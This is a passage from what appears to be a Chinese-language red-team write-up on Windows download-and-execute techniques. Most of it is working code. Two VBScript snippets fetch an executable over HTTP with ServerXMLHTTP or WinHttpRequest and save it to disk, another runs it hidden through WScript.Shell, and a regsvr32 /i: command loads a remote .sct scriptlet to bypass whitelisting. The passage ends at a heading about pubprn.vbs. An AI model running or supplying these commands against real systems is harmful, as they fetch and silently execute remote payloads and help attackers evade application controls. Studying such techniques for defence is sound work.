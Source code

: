 ```
Const adTypeBinary = 1
Const adSaveCreateOverWrite = 2
Dim http,ado
Set http = CreateObject("Msxml2.ServerXMLHTTP.6.0")
http.SetOption 2, 13056
http.open "GET","https://github.com/3gstudent/test/raw/master/putty.exe",False
http.send
Set ado = createobject("Adodb.Stream")
ado.Type = adTypeBinary
ado.Open
ado.Write http.responseBody
ado.SaveToFile "c:\download\a.exe"
ado.Close
```

**注：**

该思路来自@mosin @索马里海贼

也可以通过`WinHttp.WinHttpRequest.5.1`实现，代码如下：

```
Const adTypeBinary = 1
Const adSaveCreateOverWrite = 2
Dim http,ado
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
http.open "GET","https://github.com/3gstudent/test/raw/master/putty.exe",False
http.send
Set ado = createobject("Adodb.Stream")
ado.Type = adTypeBinary
ado.Open
ado.Write http.responseBody
ado.SaveToFile "c:\download\a.exe"
ado.Close
```

**注：**

该思路来自@ogre

vbs脚本实现的执行代码

```
WScript.CreateObject("WScript.Shell").Run "c:\download\a.exe",0,true 
```

依旧是以sct文件作为模板，添加功能，生成downloadexec2.sct

**实现功能：**

```
regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/test/master/downloadexec2.sct scrobj.dll
```

### 5、pubprn.vbs
